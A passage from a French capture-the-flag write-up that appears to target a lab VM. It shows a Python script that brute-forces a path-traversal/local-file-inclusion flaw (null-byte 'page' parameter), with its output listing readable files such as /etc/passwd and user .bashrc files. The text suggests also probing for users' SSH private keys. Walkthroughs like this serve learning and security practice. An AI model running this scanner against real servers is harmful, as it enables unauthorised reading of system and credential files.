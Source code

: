```python
import requests

URL = "http://192.168.1.69/index.php?page=../../../../../..PARAM%00"

fd = open("logs.txt")

while True:
    word = fd.readline()
    if not word:
        break
    word = word.strip()
    r = requests.get(URL.replace("PARAM", word))
    if not "failed to open stream" in r.content:
        print "Contenu trouve avec", word
fd.close()
```

Evidemment à vous de remplir préalablement le fichier *logs.txt* avec des paths de fichiers intéressants (les *.ssh/id\_rsa* des utilisateurs par exemple).  

J'obtiens l'output suivant :  

```plain
Contenu trouve avec /var/log/lastlog
Contenu trouve avec /var/log/wtmp
Contenu trouve avec /var/run/utmp
Contenu trouve avec /etc/passwd
Contenu trouve avec /etc/group
Contenu trouve avec /etc/hosts
Contenu trouve avec /etc/motd
Contenu trouve avec /etc/issue
Contenu trouve avec /etc/redhat-release
Contenu trouve avec /etc/crontab
Contenu trouve avec /etc/inittab
Contenu trouve avec /proc/version
Contenu trouve avec /proc/cmdline
Contenu trouve avec /etc/httpd/conf/httpd.conf
Contenu trouve avec /etc/my.cnf
Contenu trouve avec /etc/php.ini
Contenu trouve avec /var/mail/apache
Contenu trouve avec /var/log/dmesg
Contenu trouve avec /home/patrick/.bashrc
Contenu trouve avec /home/jennifer/.bashrc
Contenu trouve avec /home/andy/.bashrc
Contenu trouve avec /home/amy/.bashrc
Contenu trouve avec /home/loren/.bashrc
```

Pas grand chose d'intéressant : on parvient à accéder aux *.bashrc* mais pas aux clés SSH. Les logs *Apache* sont eux aussi inaccessibles.  

Après avoir testé différentes urls du type */~nom\_utilisateur*, il semble que seul andy exploite le module *user\_dir* d'*Apache* dont rien de plus à fouiller ici.  
